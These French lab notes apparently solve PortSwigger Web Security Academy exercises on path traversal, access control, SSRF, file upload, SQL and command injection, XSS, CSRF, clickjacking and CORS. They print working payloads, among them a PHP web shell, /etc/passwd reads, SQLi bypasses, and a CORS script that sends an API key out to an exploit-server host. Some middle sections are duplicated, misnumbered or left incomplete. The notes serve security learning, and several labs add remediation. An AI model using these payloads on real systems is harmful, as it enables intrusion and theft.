








Notes PortSwigger — Web Security Academy¶
Labs résolus de la Web Security Academy : access control, authentification, SSRF, upload, SQLi, XSS…
Sommaire¶
- Lab 1 — Path traversal
- Lab 2 — Unprotected admin functionality
- Lab 3 — Unprotected admin panel with unpredictable URL
- Lab 4 — User role controlled by a request parameter
- Lab 5 — User ID controlled by request parameter, with unpredictable user IDs
- Lab 6 — User ID controlled by request parameter with password disclosure
- Lab 7 — Username enumeration via different responses
- Lab 8 — 2FA simple bypass
- Lab 9 — Basic SSRF against the local server
- Lab 10 — Basic SSRF against another back-end system
- Lab 11 — Remote code execution via web shell upload
- Lab 12 — Web shell upload via Content-Type restriction bypass
- Lab 13 — SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- Lab 14 — OS command injection, simple case
- Lab 15 — SQL injection vulnerability allowing login bypass
- Lab 16 — Reflected XSS into HTML context with nothing encoded
- Lab 17 — SQL injection attack, querying the database type and version on Oracle
- Lab 18 — Basic password reset poisoning
- Lab 19 — CSRF vulnerability with no defenses
- Lab 20 — Basic clickjacking with CSRF token protection
- Lab 21 — CORS vulnerability with basic origin reflection
- Lab 22 — Stored XSS into HTML context with nothing encoded
- Lab 23 — DOM XSS in document.write sink using source location.search
- Lab 24 — DOM XSS in jQuery anchor href attribute sink using location.search source
- Lab 25 — DOM XSS in jQuery selector sink using a hashchange event
- Lab 26 — Reflected XSS into attribute with angle brackets HTML-encoded
- Lab 27 — Stored XSS into anchor href attribute with double quotes HTML-encoded
- Lab 28 — DOM XSS in innerHTML sink using source location.search
- Lab 29 — Reflected XSS into a JavaScript string with angle brackets HTML encoded
Lab 1 — Path traversal¶
Catégorie : Path Traversal
This lab contains a path traversal vulnerability in the display of
product images. To solve the lab, retrieve the contents of the
/etc/passwd file.
Contexte :
Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:
<img src="/loadImage?filename=218.png">
The image files are stored on disk in the location /var/www/images/.
Résolution :
En Burp Suite, on intercepte l’image, puis on modifie le code HTML de l’image. On peut le changer pour :
<img src="../../../../../../../etc/passwd">
Le ../ permet de remonter de répertoire en répertoire jusqu’au
répertoire racine où se trouve /``etc``/``passwd. On transmet ensuite
la requête, et on obtient l’accès à toutes les informations sensibles
contenues dans le fichier /``etc``/``passwd.
Lab 2 — Unprotected admin functionality¶
Catégorie : Access Control
This lab has an unprotected admin panel. Solve the lab by deleting the user carlos.
Contexte :
For example, a website might host sensitive functionality at the following URL:
https://insecure-website.com/admin
In some cases, the administrative URL might be disclosed in other
locations, such as the robots.txt file:
https://insecure-website.com/robots.txt
Résolution :
Il y a deux façons de faire :
- La plus simple : écrire
robots.txtaprès l’URI complète dans le navigateur. - La plus technique : utiliser une commande dans le terminal :
gobuster dir -u https://0a1200ef04844933828bfbab000100eb.web-security-academy.net/ -w /usr/share/wordlists/dirb/common.txt

Résultat gobuster
Cette commande trouve tous les endpoints accessibles après l’URL du site.
Dans robots.txt, on trouve /``administrator``-panel. On accède
ensuite à :
https://0a1200ef04844933828bfbab000100eb.web-security-academy.net/administrator-panel
Et on peut supprimer l’utilisateur carlos.
Lab 3 — Unprotected admin panel with unpredictable URL¶
Catégorie : Access Control
This lab has an unprotected admin panel. It’s located at an unpredictable location, but the location is disclosed somewhere in the application. Solve the lab by accessing the admin panel and using it to delete the user carlos.
Contexte :
Imagine an application that hosts administrative functions at the following URL:
https://insecure-website.com/administrator-panel-yb556
This might not be directly guessable by an attacker. However, the application might still leak the URL to users — par exemple dans du JavaScript qui construit l’interface utilisateur en fonction du rôle de l’utilisateur.
Résolution :
On cherche le code source de la page ou la réponse de la page dans Burp Suite :

Code source révélant l’URL admin
Puis on accède directement à :
https://0af900b403dbf3788137116100ae00fb.web-security-academy.net/admin-bfs2d3
Lab 4 — User role controlled by a request parameter¶
Catégorie : Access Control
This lab has an admin panel at /admin, which identifies administrators
using a forgeable cookie. Solve the lab by accessing the admin panel and
using it to delete the user carlos.
Identifiants : wiener:peter
Contexte :
Some applications determine the user’s access rights or role at login and then store this information in a user-controllable location. This could be :
- A hidden field
- A cookie
- A preset query string parameter
Résolution :
Dans Burp Suite, on modifie le cookie id=``wiener en admin=``true.
On obtient alors une réponse contenant deux liens :
<a href="/admin/delete?username=carlos">
<a href="/admin/delete?username=wiener">
On prend l’URL de la page :
https://0ae200a4049f1e3380888a7f00e2000e.web-security-academy.net/admin
Et on ajoute le href pour supprimer carlos :
https://0ae200a4049f1e3380888a7f00e2000e.web-security-academy.net/admin/delete?username=carlos
Lab 5 — User ID controlled by request parameter, with unpredictable user IDs¶
Catégorie : Access Control (IDOR)
This lab has a horizontal privilege escalation vulnerability on the user account page but identifies users with GUIDs. To solve the lab, find the GUID for carlos, then submit his API key as the solution.
Identifiants : wiener:peter
Contexte :
Horizontal privilege escalation is when a user accesses another user’s
data at the same permission level. Par exemple, changer un paramètre
d’URL comme id=123 en id=124 pour voir le compte de quelqu’un
d’autre. C’est souvent dû à une vulnérabilité IDOR, où l’application ne
vérifie pas correctement si l’utilisateur est autorisé à accéder à cette
ressource. Même avec des IDs aléatoires (comme des GUIDs), c’est
toujours exploitable si ces IDs sont exposés ailleurs.
Résolution :
On arrive sur le site et on cherche un blog posté par l’utilisateur
carlos. On va dans Burp Suite et on récupère son id. Après connexion
avec wiener:peter, on change simplement l’URL en ajoutant l’id de
carlos. On obtient alors son API key.
Lab 6 — User ID controlled by request parameter with password disclosure¶
Catégorie : Access Control (IDOR)
This lab has a user account page that contains the current user’s existing password, prefilled in a masked input. To solve the lab, retrieve the administrator’s password, then use it to delete the user carlos.
Identifiants : wiener:peter
Résolution :
En se connectant avec ses identifiants, on voit dans l’URL un
id=``wiener. On change cet id en administrator ou carlos. On peut
ainsi voler le mot de passe de l’admin, se connecter avec son compte, et
aller dans le panel admin pour supprimer carlos.
Lab 7 — Username enumeration via different responses¶
Catégorie : Authentication
This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, findable via des wordlists (candidate usernames / candidate passwords). To solve the lab, enumerate a valid username, brute-force this user’s password, then access their account page.
Résolution :
On se connecte avec des identifiants aléatoires comme wiener:peter,
puis on va dans Burp Suite pour repérer la requête POST du formulaire de
login. On envoie la requête à l’Intruder (Ctrl+I). Dans l’Intruder, on
prend wiener et on ajoute $ autour. On colle la liste de candidate
usernames et on lance l’attaque.
Une fois terminé, Burp trouve un seul username qui a une longueur de
réponse différente des autres — signe que la réponse retournée est
différente pour ce cas précis. On remplace ensuite $``wiener``$ par le
username correct (ex. alabama), puis on répète la même méthode pour
trouver le mot de passe.
Lab 8 — 2FA simple bypass¶
Catégorie : Authentication
This lab’s two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user’s 2FA verification code. To solve the lab, access Carlos’s account page.
Identifiants : wiener:peter — Victime : carlos:montoya
Résolution :
On entre ses propres identifiants sur la page de login. Après validation, on change l’URL pour revenir à la page principale — en cliquant à nouveau sur “my account”, on peut sauter le code à 4 chiffres demandé, car le site pense qu’on est déjà connecté. On répète la même méthode pour carlos.
Lab 9 — Basic SSRF against the local server¶
Catégorie : SSRF
This lab has a stock check feature which fetches data from an internal
system. To solve the lab, change the stock check URL to access the admin
interface at http://localhost/admin and delete the user carlos.
Résolution :
On consulte un article et son niveau de stock. Avec Burp Suite, on
intercepte la requête POST de vérification de stock et on l’envoie au
Repeater. On modifie la clé stockApi pour :
http://localhost/admin
La réponse révèle une ligne : /admin/``delete?username``=``carlos. Il
suffit de remplacer à nouveau la clé stockApi par :
http://localhost/admin/delete?username=carlos
Lab 10 — Basic SSRF against another back-end system¶
Catégorie : SSRF
This lab has a stock check feature which fetches data from an internal
system. To solve the lab, use the stock check functionality to scan the
internal 192.168.0.X range for an admin interface on port 8080, then
use it to delete the user carlos.
Résolution :
On active Burp Suite, on consulte un objet aléatoire et son stock check.
On envoie la requête POST du stock check à l’Intruder. L’objectif étant
de scanner les IPs entre 192.168.0.1 et 192.168.0.255, on surligne
le dernier octet de l’IP et on ajoute $ autour.
On crée un script bash pour générer la liste des valeurs à tester :
for i in {2..254}; do echo $i >> numbers.txt; done
Ce script crée un fichier numbers.txt contenant les nombres de 1 à
255.
La stock API ressemble à :
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin
On lance l’Intruder avec numbers.txt en payload. Une seule requête
retourne un code de statut 200 — c’est la seule qui renvoie
effectivement quelque chose. Dans cet exemple, 192.168.0.135 est la
bonne adresse IP stockApi. Dans le Repeater, la réponse donne :
/``delete?username``=``carlos. On ajoute ça à la clé stockApi pour
supprimer carlos.
Lab 11 — Remote code execution via web shell upload¶
Catégorie : File Upload / RCE
This lab contains a vulnerable image upload function. It doesn’t perform
any validation on the files users upload before storing them on the
server’s filesystem. To solve the lab, upload a basic PHP web shell and
use it to exfiltrate the contents of the file /home/carlos/secret.
Identifiants : wiener:peter
Payloads utiles :
Lire un fichier arbitraire :
<?php echo file_get_contents('/path/to/target/file'); ?>
Web shell simple :
<?php echo system($_GET['command']); ?>
Résolution :
On crée un fichier shell.php contenant le web shell simple ci-dessus.
La requête web ressemble à :
http://whatever.com/files/images/shell.php?command=cat /home/carlos/secret
Sur le site, on peut parcourir un avatar — on choisit le fichier
shell.php et on l’upload. Le site confirme que /avatar/``shell.php a
été mis à jour, mais accéder directement à cet endpoint renvoie “not
found”.

Fichier uploadé non trouvé au premier endpoint
En copiant le lien de l’image, on trouve le bon endpoint :
/files/avatar/``shell.php. On ajoute alors la commande directement
dans l’URL :
https://0a5a00e304ac8ace81cfedff00430054.web-security-academy.net/files/avatars/shell.php?command=cat%20/home/carlos/secret
⚠️ Attention : l’echo est fait deux fois, donc il faut ne soumettre qu’un seul segment comme solution valide.
Lab 12 — Web shell upload via Content-Type restriction bypass¶
Catégorie : File Upload / RCE
This lab contains a vulnerable image upload function. It attempts to
prevent users from uploading unexpected file types but relies on
checking user-controllable input to verify this. To solve the lab,
upload a basic PHP web shell and use it to exfiltrate the contents of
the file /home/carlos/secret.
Identifiants : wiener:peter
Résolution :
Avec le même shell.php :
<?php echo system($_GET['command']); ?>
On se connecte avec wiener:peter :

Page de compte après connexion
En essayant d’uploader shell.php directement, le site refuse :
Sorry, file type application/x-php is not allowed. Only image/jpeg and image/png are allowed. Sorry, there was an error uploading your file.
Dans Burp Suite, on renvoie la requête au Repeater (Ctrl+R) :

Requête envoyée au Repeater
On change le Content-Type en image/jpeg et on renvoie :

Modification du Content-Type
Fichier accepté après modification
Une fois envoyé, on copie le lien de l’image :

Lien de l’image uploadée
Dans ce lien, on ajoute :
?command=ls /home/carlos/
?command=cat /home/carlos/secret
Lab 13 — SQL injection vulnerability in WHERE clause allowing retrieval of hidden data¶
Catégorie : SQL Injection
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following :
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
Résolution :
On affine la recherche avec une des catégories proposées par le site. On
teste d’abord avec un ' en fin d’URL pour vérifier si le site est
vulnérable aux injections SQL.
Si le site est vulnérable, on ajoute en fin d’URL :
' or 1=1---
Exemple :
https://0a3b006e047c98d78092f87b0080000a.web-security-academy.net/filter?category=Lifestyle' or 1=1---
Lab 14 — OS command injection, simple case¶
Catégorie : OS Command Injection
This lab contains an OS command injection vulnerability in the product
stock checker. The application executes a shell command containing
user-supplied products and store IDs and returns the raw output from the
command in its response. To solve the lab, execute the whoami command
to determine the name of the current user.
Résolution :
Avec Burp Suite, on vérifie le stock d’un produit aléatoire, on récupère la requête POST et on l’envoie au Repeater.
Avant :
productId=18&storeId=2
Après :
productId=18&storeId=2;cat /etc/passwd
Lab 15 — SQL injection vulnerability allowing login bypass¶
Catégorie : SQL Injection
This lab contains a SQL injection vulnerability in the login function. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
Résolution :
Lab facile — il suffit de se connecter avec :
Username : administrator'--
Password : (n'importe quoi)
Lab 16 — Reflected XSS into HTML context with nothing encoded¶
Catégorie : Cross-Site Scripting (XSS)
This lab contains a simple reflected cross-site scripting vulnerability
in the search functionality. To solve the lab, perform a cross-site
scripting attack that calls the alert function.
Résolution :
Le paramètre de recherche est réinjecté tel quel dans le HTML de la réponse, sans aucun encodage. Il suffit donc d’injecter directement une balise script dans le champ de recherche :
<script>alert()</script>
Lab 17 — SQL injection attack, querying the database type and version on Oracle¶
Catégorie : SQL Injection
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. To solve the lab, display the database version string.
Résolution :
Étape 1 : Trouver le nombre de colonnes
Sur le paramètre vulnérable (généralement category dans l’URL, ex :
/``filter?category``=Gifts), on teste avec ORDER BY :
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
On continue jusqu’à obtenir une erreur — le dernier numéro qui fonctionne sans erreur donne le nombre de colonnes (souvent 2 dans ce lab).
Étape 2 : Confirmer avec UNION SELECT NULL
' UNION SELECT NULL,NULL FROM dual--
⚠️ Sur Oracle, contrairement à MySQL, on est obligé d’ajouter
FROM dual (une table système vide qui sert de “table bidon” pour
satisfaire la syntaxe SQL d’Oracle). Si ça ne renvoie pas d’erreur, on a
le bon nombre de colonnes.
Étape 3 : Récupérer la version
On remplace un des NULL par la requête qui donne la version :
' UNION SELECT banner, NULL FROM v$version--
v$version est une table système Oracle qui contient la chaîne de
version complète de la base (nom + numéro de version).
Lab 18 — Basic password reset poisoning¶
Catégorie : Authentication
This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos’s account.
Identifiants : wiener:peter — les emails envoyés à ce compte sont
lisibles via le client email sur le serveur d’exploit.
Lab 19 Stored XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality.
To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

Lab: DOM XSS in document.write sink using source location.search
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
**Resolution :
Lab: DOM XSS in innerHTML sink using source location.search
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
Resolution:
Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.
To solve this lab, make the "back" link alert document.cookie.
https://0adf00fc0445233780ecdf9b0084001a.web-security-academy.net/feedback?returnPath=javascript:alert(1)
Lab: DOM XSS in jQuery selector sink using a hashchange event
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
Lab 19 — CSRF vulnerability with no defenses¶
Catégorie : CSRF (Cross-Site Request Forgery)
Difficulté : Apprentice
This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to the exploit server.
Identifiants fournis : wiener:peter.
Contexte :
La fonctionnalité de changement d'email (/my-account/change-email)
ne possède aucune protection CSRF : pas de token anti-CSRF dans le
formulaire, pas de vérification des headers Origin/Referer, et le
cookie de session n'a pas d'attribut SameSite restrictif. N'importe
quel site tiers peut donc forger une requête qui sera exécutée avec la
session de la victime, sans qu'elle s'en aperçoive.
Requête légitime observée dans Burp (Proxy > HTTP history) :
POST /my-account/change-email HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=...
Content-Type: application/x-www-form-urlencoded
email=test@test.com
Résolution :
On construit une page HTML qui soumet automatiquement un formulaire vers l'endpoint vulnérable, avec l'email de notre choix :
<html>
<body>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker@evil.com" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
On héberge ce fichier sur le serveur d'exploit fourni par PortSwigger (Go to exploit server) :
- File :
/exploit - Head :
HTTP/1.1 200 OK/Content-Type: text/html; charset=utf-8 - Body : le HTML ci-dessus
On clique Store pour l'enregistrer, puis Deliver exploit to
victim. Le navigateur de la victime (authentifiée sur le lab) charge
la page, le formulaire se soumet seul via le <script>, et le cookie
de session est envoyé automatiquement par le navigateur puisque la
requête vise le même domaine que le cookie — le CSRF n'a besoin de
rien d'autre.
Pourquoi ça marche :
Le navigateur attache toujours les cookies d'un domaine aux requêtes
qui lui sont destinées, même si la page qui déclenche la requête vient
d'une origine totalement différente (ici le serveur d'exploit). Sans
token CSRF ni SameSite=Strict/Lax sur le cookie de session, le
serveur ne peut pas distinguer une requête volontaire de la victime
d'une requête forgée par un tiers.
Remédiation :
- Token CSRF unique par session, vérifié côté serveur sur chaque requête de modification d'état.
- Cookie de session avec
SameSite=Lax(ouStrict), qui empêche le navigateur d'envoyer le cookie sur une requête cross-site de typePOST. - Vérification du header
OriginouRefereren complément, jamais comme seule protection (ces headers peuvent être absents ou manipulés dans certains contextes).
Lab 20 — Basic clickjacking with CSRF token protection¶
Catégorie : Clickjacking
Difficulté : Apprentice
This lab is a sample Checkout page for an online store, vulnerable to clickjacking. There's also a reflected XSS vulnerability. However, you need to use a clickjacking attack to exploit this vulnerability.
To solve the lab, construct an HTML page that frames the account page and fools the user into deleting their account, via a decoy website that they're induced to interact with. The lab is solved when the "My account" page deletion endpoint is triggered via the iframe.
Contexte :
Le site cible n'envoie pas de header X-Frame-Options ni de directive
Content-Security-Policy: frame-ancestors, donc n'importe quelle page
peut le charger dans un <iframe>. L'attaque consiste à superposer un
élément visible et inoffensif (<div>Click</div>) au-dessus de
l'iframe, positionné exactement sur le bouton à piéger, tout en rendant
l'iframe transparent (opacity: 0.1). La victime croit cliquer sur le
<div>, mais c'est en réalité le clic sur le bouton du site ciblé qui
est déclenché, avec sa propre session déjà authentifiée.
Résolution :
On commence par ouvrir le lab et repérer le bouton à piéger sur la page
/my-account (ici, le bouton de suppression de compte). On inspecte la
page pour estimer sa position approximative.
Sur le serveur d'exploit (Go to exploit server), on crée la page suivante :
<style>
iframe {
position: relative;
width: 700px;
height: 600px;
opacity: 0.1;
z-index: 2;
}
div {
position: absolute;
top: 500px;
left: 60px;
z-index: 1;
}
</style>
<div>Click</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
L'iframe charge la vraie page /my-account du lab (avec la session de
la victime), rendue quasi invisible (opacity: 0.1). Le <div>Click
est positionné par-dessus, aux coordonnées exactes du bouton de
suppression de compte (ajustées par tâtonnement avec top/left).
On clique Store, puis View exploit pour ajuster la position du
<div> jusqu'à ce que le clic tombe pile sur le bouton réel (visible en
augmentant temporairement l'opacité pour calibrer). Une fois la
superposition correcte, on clique Deliver exploit to victim : le
clic de la victime sur le <div> déclenche en réalité la suppression
de son compte via l'iframe.
Pourquoi ça marche :
Le clickjacking détourne un clic légitime de l'utilisateur sans passer par une requête forgée : contrairement au CSRF, il n'a pas besoin de contourner un token anti-CSRF, puisque c'est le navigateur de la victime, avec sa session réelle, qui exécute l'action dans l'iframe. Le token CSRF est envoyé normalement, car c'est bien le formulaire légitime du site qui est soumis — seule l'interface visuelle est trompeuse.
Remédiation :
- Header
X-Frame-Options: DENYouSAMEORIGINpour empêcher le framing. Content-Security-Policy: frame-ancestors 'none'(ou liste blanche des origines autorisées), qui remplaceX-Frame-Optionsdans les navigateurs modernes.- Scripts de frame-busting côté client en défense complémentaire (jamais comme seule protection, car contournables).
Lab 21 — CORS vulnerability with basic origin reflection¶
Catégorie : CORS (Cross-Origin Resource Sharing)
Difficulté : Apprentice
This lab has an insecure CORS configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
Identifiants : wiener:peter
Contexte :
Le site expose un endpoint /accountDetails qui retourne des données sensibles (dont l'apikey) au format JSON, avec les headers suivants dans la réponse :
Access-Control-Allow-Origin: <origin de la requête>
Access-Control-Allow-Credentials: true
Le serveur reflète aveuglément n'importe quelle origine dans Access-Control-Allow-Origin. Combiné à Access-Control-Allow-Credentials: true, cela permet à un site tiers de lire la réponse cross-origin avec les cookies de session de la victime — exposant ainsi des données privées.
Résolution :
Étape 1 — Identifier le champ sensible
Se connecter avec wiener:peter et accéder à :
/accountDetails
La réponse JSON retourne :
{
"username": "wiener",
"email": "",
"apikey": "zPWeYW9yjHY1Auk4Okx2SeKlcaRCLkka",
"sessions": ["..."]
}
Étape 2 — Confirmer la vulnérabilité
Dans Burp Suite, ajouter le header Origin: https://evil.com à la requête vers /accountDetails. La réponse reflète :
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
→ Vulnérable ✅
Étape 3 — Payload sur le serveur d'exploit
Sur le serveur d'exploit, coller dans le body :
<script>
fetch("https://LAB-ID.web-security-academy.net/accountDetails", {
credentials: "include"
})
.then(r => r.json())
.then(data => {
fetch("https://EXPLOIT-SERVER.exploit-server.net/log?key=" + data.apikey)
})
</script>
⚠️ Le champ s'appelle apikey (tout en minuscules) — pas apiKey.
Étape 4 — Deliver to victim
Cliquer Deliver exploit to victim, puis consulter l'Access log du serveur d'exploit. Une requête de 10.0.4.x (la victime) apparaît :
GET /log?key=OChRQPq4UqhmsHIvQtywQxHHPcwgCnzE HTTP/1.1
Étape 5 — Soumettre la solution
Copier l'API key et la soumettre dans le lab → résolu ✅
Pourquoi ça marche :
Le navigateur attache automatiquement les cookies de session à la requête fetch grâce à credentials: "include". Comme le serveur répond avec Access-Control-Allow-Origin égal à l'origine de l'exploit server et Access-Control-Allow-Credentials: true, le navigateur de la victime autorise le script à lire la réponse cross-origin — exposant l'apikey de l'admin.
Remédiation :
- Ne jamais refléter aveuglément le header
Originreçu dansAccess-Control-Allow-Origin. - Maintenir une liste blanche stricte des origines autorisées.
- Éviter de combiner
Access-Control-Allow-Credentials: trueavec une politique CORS permissive. - Ne jamais autoriser
Access-Control-Allow-Origin: *avec des credentials.
Lab 22 — Stored XSS into HTML context with nothing encoded¶
Catégorie : Cross-Site Scripting (XSS)
Difficulté : Apprentice
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
Contexte :
Un XSS stocké (ou persistant) se produit lorsqu'une application enregistre une entrée utilisateur non filtrée dans sa base de données, puis la réaffiche telle quelle dans les pages. Contrairement au XSS réfléchi, la charge malveillante est exécutée automatiquement par tous les visiteurs qui consultent la page infectée — sans qu'ils aient besoin de cliquer sur un lien spécial.
Résolution :
On ouvre n'importe quel article de blog et on remplit le formulaire de commentaire. Dans le champ Comment, on injecte directement :
<script>alert()</script>
Les autres champs (Name, Email, Website) peuvent contenir n'importe quelle valeur valide. On soumet le commentaire.
Le site enregistre le commentaire sans aucun encodage ni filtrage. Dès qu'un utilisateur (ou nous-mêmes) consulte la page de l'article, le navigateur interprète la balise <script> et exécute alert() → lab résolu ✅
Pourquoi ça marche :
Le serveur stocke la valeur brute du champ et la réinjecte dans le HTML de la réponse sans l'encoder. Le navigateur interprète donc <script>alert()</script> comme du code JavaScript légitime.
Remédiation :
- Encoder toutes les sorties HTML (
<→<,>→>, etc.) avant de les afficher. - Valider et filtrer les entrées côté serveur.
- Mettre en place une
Content-Security-Policystricte qui bloque les scripts inline.
Lab 23 — DOM XSS in document.write sink using source location.search¶
Catégorie : Cross-Site Scripting (XSS) — DOM-based
Difficulté : Apprentice
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
Contexte :
Un XSS DOM-based se produit entièrement côté client : le JavaScript de la page lit une source contrôlable (location.search, location.hash, etc.) et l'injecte dans un sink dangereux (document.write, innerHTML, etc.) sans assainissement. Le serveur ne voit jamais le payload — c'est le navigateur lui-même qui crée la vulnérabilité.
Ici, le code de tracking ressemble à :
document.write('<img src="/resources/images/tracker.gif?searchTerms=' + location.search + '">');
Résolution :
Dans le champ de recherche, on injecte un payload qui ferme l'attribut src de la balise <img> générée par document.write, puis insère une balise SVG avec un handler onload :
"><svg onload=alert(1)>
Ce qui produit dans le DOM :
<img src="/resources/images/tracker.gif?searchTerms="><svg onload=alert(1)>">
